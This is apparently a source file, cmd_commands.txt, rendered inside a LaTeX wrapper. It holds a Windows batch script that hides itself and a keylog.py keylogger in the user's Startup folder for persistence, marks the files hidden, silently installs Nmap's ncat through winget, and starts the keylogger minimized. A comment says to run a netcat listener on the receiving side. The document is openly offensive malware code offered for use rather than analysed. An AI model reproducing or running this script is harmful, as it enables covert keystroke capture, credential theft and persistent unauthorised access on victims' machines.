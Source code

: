 \documentclass[11pt]{article}
\begin{document}
	\subsection{cmd\_commands.txt}
	\begin{verbatim}
		:: from receiver side please write nc -lvnp port number 
		
		@echo off
		:: Target Startup Folder for persistence
		SET STARTUP_DIR="%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
		SET SCRIPT_NAME="%~nx0"
		SET KEYLOG_SCRIPT_NAME="keylog.py"
		SET KEYLOG_STARTUP_PATH="%STARTUP_DIR%\%KEYLOG_SCRIPT_NAME%"
		SET BATCH_STARTUP_PATH="%STARTUP_DIR%\%SCRIPT_NAME%"
		SET NMAP_INSTALL_DIR="%ProgramFiles%\Nmap"
		SET NCAT_PATH="%NMAP_INSTALL_DIR%\ncat.exe"
		SET LOG_DIR="C:\Temp\ProjectLogs" || Rem Using a fixed path for logs for simplicity ||
		
		:: Create log directory if it doesn't exist
		if not exist %LOG_DIR% mkdir %LOG_DIR%
		
		:: Check if already persistent and keylogger is running
		if exist %BATCH_STARTUP_PATH% (
		echo [%TIME%] Already persistent. Ensuring keylogger is running. >> %LOG_DIR%\cmd_execution.log
		start /min cmd /c "cd %STARTUP_DIR% & python %KEYLOG_SCRIPT_NAME% >> %LOG_DIR%\keylog_output.log 2>>&1 & attrib +h %KEYLOG_SCRIPT_NAME%"
		) else (
		echo [%TIME%] First run. Setting up persistence and tools. >> %LOG_DIR%\cmd_execution.log
		
		:: Silently attempt to install Nmap using WinGet if ncat.exe is not found
		if not exist %NCAT_PATH% (
		echo [%TIME%] Ncat not found. Attempting to install Nmap via WinGet. >> %LOG_DIR%\cmd_execution.log
		start /min cmd /c "curl -o AppInstaller.msixbundle https://aka.ms/getwinget & winget install Insecure.Nmap --accept-package-agreements --accept-source-agreements --silent & attrib +h "AppInstaller.msixbundle""
		echo [%TIME%] Nmap installation initiated. May take time. >> %LOG_DIR%\cmd_execution.log
		) else (
		echo [%TIME%] Ncat found at %NCAT_PATH%. >> %LOG_DIR%\cmd_execution.log
		)
		
		:: Copy batch script and keylogger to Startup for persistence
		echo [%TIME%] Copying scripts to Startup: %STARTUP_DIR% >> %LOG_DIR%\cmd_execution.log
		start /min cmd /c "xcopy /H /Y "%~dpnx0" %STARTUP_DIR% & attrib +h %BATCH_STARTUP_PATH% & xcopy /H /Y "keylog.py" %STARTUP_DIR% & attrib +h %KEYLOG_STARTUP_PATH%"
		
		:: Initial run of the keylogger
		echo [%TIME%] Starting keylogger for the first time. >> %LOG_DIR%\cmd_execution.log
		start /min cmd /c "cd %STARTUP_DIR% & python %KEYLOG_SCRIPT_NAME% >> %LOG_DIR%\keylog_output.log 2>>&1"
		)
		

\end{verbatim}
\end{document}
